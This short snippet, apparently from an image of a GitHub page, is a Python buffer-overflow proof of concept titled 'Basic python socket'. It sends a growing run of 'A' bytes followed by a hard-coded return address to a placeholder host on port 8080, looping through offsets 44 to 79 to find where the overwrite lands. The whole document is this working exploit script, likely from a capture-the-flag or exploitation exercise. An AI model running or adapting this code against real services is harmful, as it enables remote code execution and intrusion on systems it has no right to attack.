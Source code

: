 ### Basic python socket

```python
import socket
import time

def exploit(ip, port, x):
    payload = b"A" * x
    payload += b"\xb3\xba\x37\x13"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    time.sleep(0.3)

    s.sendall(payload + b"\n")
    print(s.recv(2048).decode(errors="ignore"))
    s.close()

for i in range(44, 80):
    exploit("x.x.x.x", 8080, i)
```

